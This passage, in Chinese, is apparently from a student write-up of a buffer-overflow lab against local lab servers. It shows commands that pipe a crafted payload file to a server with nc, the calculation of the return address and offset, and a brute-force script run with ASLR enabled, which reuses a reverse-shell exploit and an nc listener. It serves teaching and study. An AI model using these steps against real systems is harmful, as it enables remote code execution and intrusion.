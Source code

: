 ```bash
$ echo hello | nc 10.9.0.7 9090
^C
```

<img src="https://i.loli.net/2021/07/11/2pEHn9KI5QLOWSb.png" alt="image-20210711012942394" style="zoom:50%;" />

修改 exploit.py

<img src="https://i.loli.net/2021/07/11/KoctQvBDu3sWCyr.png" alt="image-20210711013043952" style="zoom:50%;" />

其中，

- ret 取一个较大的值，在 $1184$ 到 $1424$ 之间
- $\text{offset}=$`0x00007fffffffe700`$-$`0x00007fffffffe6a0`+8

然后执行

```bash
$ ./exploit.py
$ cat badfile | nc 10.9.0.8 9090
```

得到了结果

<img src="https://i.loli.net/2021/07/11/4gDQqSNBbR1LkZJ.png" alt="image-20210711013308222" style="zoom:50%;" />

# Task 6: Experimenting with the Address Randomization

打开地址随机化

```bash
$ sudo sysctl -w kernel.randomize_va_space=2
```

各执行两次如下命令

```bash
$ echo hello | nc 10.9.0.5 9090
^C
$ echo hello | nc 10.9.0.7 9090
^C
```

得到结果

<img src="https://i.loli.net/2021/07/11/zcwL1Jas2qbiIlD.png" alt="image-20210711014055617" style="zoom:50%;" />

可以看到，每次地址都不相同，导致攻击困难。

使用 Task2 中 reverse shell 的 exploit.py 代码，执行命令

```bash
$ ./exploit.py
$ ./brute-force.sh
```

```bash
$ nc -lnv 9090
```
